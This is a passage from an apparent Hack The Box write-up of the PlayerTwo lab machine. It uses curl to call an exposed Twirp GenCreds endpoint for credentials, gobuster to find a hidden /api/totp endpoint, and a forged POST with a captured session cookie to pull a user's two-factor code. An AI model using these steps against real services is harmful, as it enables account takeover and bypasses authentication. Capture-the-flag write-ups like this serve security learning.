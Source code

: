 The just found `http://player2.htb/proto/generated.proto` file outlines the design of the service in use, which is basically identical to the structure of the example in the documentation [[0]](#[0]):
{: .text-justify} 
{% include figure image_path="/assets/images/playerTwo/Twirp.png" alt="this is a placeholder image" caption="A comparison between the Protobuf definition file of PlayerTwo and from the documentation of _twirp_." %}
So we can deduce from the file that the service in use is an auth service and furthermore on [[0]](#0) the format of the endpoint is specified as
```html
POST /twirp/<package>.<Service>/<Method>
```
which translates to `/twirp/twirp.player2.auth.Auth/GenCreds` in our case and since the error message when browsing to this endpoint isn't the same as before we know we progressed:
```json
{"code":"bad_route","msg":"unsupported method \"GET\" (only POST is allowed)","meta":{"twirp_invalid_route":"GET \/twirp\/twirp.player2.auth.Auth\/GenCreds"}}
```
## Creating credentials
Reading the docs further we see how we can access the service using curl and running the following command a couple of times we get five different sets of creds:
```bash
curl --request POST --location "http://player2.htb:8545/twirp/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"":6}'
# From reading the docs I expected --data '{"count":number}' to work but it doesn't - not sure why
```
```json
{"name":"0xdf","pass":"XHq7_WJTA?QD_?E2"}
{"name":"snowscan","pass":"XHq7_WJTA?QD_?E2"}
{"name":"mprox","pass":"tR@dQnwnZEk95*6#"}
{"name":"jkr","pass":"Lp-+Q8umLW5*7qkc"}
{"name":"0xdf","pass":"ze+EKe-SGF^5uZQX"}
```
Trying these creds on the login page found earlier we are greeted by a two factor authorization!
{% include figure image_path="/assets/images/playerTwo/2fa.png" alt="this is a placeholder image" caption="" %}
As we probably have no chance of guessing the right pin and brute-froce is never an option on HTB, we fuzz again, this time `http://product.player2.htb/api`. And with using a suitable wordlist we finally find another endpoint:
{: .text-justify}
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -u product.player2.htb/api

/totp (Status: 200)
```
So we catch the request with _burp_ to grab the PHPSESSID cookie, change the request method to _POST_, switch to curl and are greeted by an "Invalid action" error. By adding an action 
```bash
curl -X POST --header "Cookie: PHPSESSID=l2frl7cqoro7ufdsqsvgttb6vm" -H "Content-Type:application/json" --location "http://product.player2.htb/api/totp" --data '{"action": "some_action"}'
```
we advance to
```json
{"error":"Missing parameters"}
```
From this we have a couple of options. We can write a small script on that or just guess some actions. In my case I guessed the action to be a number and got the following:
{: .text-justify}
```bash
curl -X POST --header "Cookie: PHPSESSID=l2frl7cqoro7ufdsqsvgttb6vm" -H "Content-Type:application/json" --location "http://product.player2.htb/api/totp" --data '{"action": 0}'
```
```json
{"user":"jkr","code":"29389234823423"}
```